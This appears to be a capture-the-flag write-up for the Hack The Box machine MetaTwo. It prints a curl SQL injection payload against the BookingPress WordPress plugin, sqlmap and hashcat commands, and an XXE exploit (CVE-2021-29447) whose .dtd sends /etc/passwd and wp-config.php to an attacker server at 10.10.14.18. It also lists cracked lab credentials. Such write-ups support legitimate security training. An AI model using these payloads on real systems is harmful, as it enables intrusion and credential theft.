

# [MetaTwo](https://app.hackthebox.com/machines/metatwo)

```bash
nmap -p- --min-rate 10000 10.10.11.186 -Pn
```


After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p21,22,80 10.10.11.186 -Pn 
```


From nmap scan result, I see that this ip address is resolved into `metapress.htb` domain name, that's why I add this into `/etc/hosts` file for resolving purposes.


I just check web application from `Tech` stack and see that this is `Wordpress` website.


Let's use `wpscan` tool to scan this website.
```bash
wpscan --url http://metapress.htb/ 
```


I know that version of `Wordpress` is `5.6.2`.

I also know that `BookingPress` plugin is vulnerable to `Unauthenticated SQLI` vulnerability.


I use this exploit from by referencing [this](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357/).


Payload for injection=>
```bash
curl -i "http://metapress.htb/wp-admin/admin-ajax.php" --data "action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -"
```


As you see, I can inject malicious `SQLI` payloads to `total_service` parameter, I can use `sqlmap` to dump all database.
```bash
sqlmap -r post.req --level 5 --risk 3 -p "total_service" 
```


From here, I dump `Wordpress` users data from `blog` database and `wp_users` table.

```bash
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

Let's crack these hashes via `hashcat` command.
```bash
hashcat -m 400 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


manager: partylikearockstar


Let's check this credentials to login into admin page of `Wordpress`.


I am already on `Admin Dashboard`.




Then I find `XXE` attack whose CVE-id is [CVE-2021-29447](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/).


Now, I do `External XXE attack` which takes malicious `.dtd` file from attacker'server.


First, we need to create malicious `.dtd` file.
```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.18:8080/?p=%file;'>" >
```

Second, we need to create `.wav` file as below.
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.18:8080/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

While we upload `payload.wav` file into here.


We need open http.server.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```


I can see result via this `base64` decoding.


Let's change the filename via `wp-config.php`, payload "../wp-config.php" and see resutl.


I take credentials from this file as below.


For database credentials:

blog: 635Aq@TdqrCwXFUZ

For FTP credentials:

metapress.htb:  9NYS_ii@FyL_p5M2NvJ


Let's connect into `FTP` service.


I take `send_email.php` file from `mailer` directory.


I read credentials from here.


jnelson@metapress.htb:  Cb4_JmWM8zUZWMu@Ys


Let's connect into machine via `ssh` by using this credentials.

user.txt


For `Privilege Escalation`, I just make enumeration on machine.

On user's home directory, I found `.passpie` directory which contains PGP keys for two users being `root` user also.

File is called `.keys`.


I download this sensitive file into my machine via http server.


After getting this file, I need to use `gpg2john` to crack.


I cracked via `john` command.
```bash
john --wordlist=/Desktop/rockyou.txt crackthehash
```


Let's use `blink182` password to dump `passpie` passwords.

```bash
passpie export output.txt
```


root: p7qfAZt4_A1xo_0x


root.txt


